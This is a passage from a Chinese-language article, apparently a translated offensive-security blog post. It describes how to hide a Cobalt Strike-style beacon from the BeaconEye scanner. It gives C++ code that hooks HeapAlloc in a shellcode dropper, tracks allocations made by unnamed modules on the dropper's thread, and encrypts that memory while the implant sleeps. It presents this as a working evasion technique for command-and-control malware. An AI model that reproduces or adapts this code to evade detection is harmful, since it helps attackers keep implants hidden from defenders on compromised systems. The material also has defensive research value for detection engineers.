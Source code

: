 这样做是为了重新分配内存，执行清除操作是为了释放内存，别忘了：现在目标是一个线程！到目前为止，事情看上去很简单。但还记得之前的那个问题，我们不得不挂起其他线程的原因吗？在我们及时解密之前，WININET 和 RPC 调用仍然会试图访问加密的内存。这里有几个选项，但我使用了自认为很有趣的一个。由于加载的 shellcode 既不是有效的 EXE 也不是 DLL，因此，我能够从任何发起调用的对象中分配内存，这些调用源自没有名称的模块。

为了让这个机制起作用，我们需要解析进行函数调用的模块。为此，这可以通过以下代码：

```bash
#include 
#pragma intrinsic(_ReturnAddress)
GlobalThreadId = GetCurrentThreadId(); We get the thread Id of our dropper!
HookedHeapAlloc (Arg1, Arg2, Arg3) {
    LPVOID pointerToEncrypt = OldHeapAlloc(Arg1, Arg2, Arg3);
    if (GlobalThreadId == GetCurrentThreadId()) { // If the calling ThreadId matches our initial thread id then continue

      HMODULE hModule;
      char lpBaseName[256];
    if (::GetModuleHandleExA(GET_MODULE_HANDLE_EX_FLAG_FROM_ADDRESS, (LPCSTR)_ReturnAddress(), &hModule) == 1) {
           ::GetModuleBaseNameA(GetCurrentProcess(), hModule, lpBaseName, sizeof(lpBaseName));
         }
        std::string modName = lpBaseName;
        std::transform(modName.begin(), modName.end(), modName.begin(),
                [](unsigned char c) { return std::tolower(c); });
        if (modName.find("dll") == std::string::npos && modName.find("exe") == std::string::npos) {
                     // Insert pointerToEncrypt variable into a list
        }
    }
}
```

上面的代码用于获取 intrinsic 函数\_ReturnAddress，并利用它与 GetModuleHandleEx 和 GET\_MODULE\_HANDLE\_EX\_FLAG\_FROM\_ADDRESS 标志来识别是哪个模块发起的这个调用。然后，我们可以把它转换成小写的字符串，如果这个字符串不包含 DLL 或 EXE，我们将其插入。有了这个，就获得了一个稳定的分配列表，就可以在休眠时进行加密了。不过，你将需要为挂钩的重新分配函数重复这个过程。

为了执行加密操作，需要遍历这个列表并加密这些分配的内存，但是不能用 HeapWalk() 函数。这将取决于你是否决定使用 map、向量、链接列表或其他数据结构。你可能想把真正的 HeapAlloc 或 ReAlloc 返回的指针存储到数组中，遍历数组并按大小对那里的数据进行加密。上面的例子中的 Arg3 就是存放的内存大小数据（[https://docs.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc](https://docs.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc)）。

所以，现在我们可以钩住四个不同的函数，根据线程 ID 将分配的内存地址放到一个向量中，然后遍历向量并在休眠时加密每个地址。如果成功，我们应该能够再次绕过 BeaconEye。

现在是演示时间！同样，为了演示的目的，我们不会让休眠时间为 1 或更少。
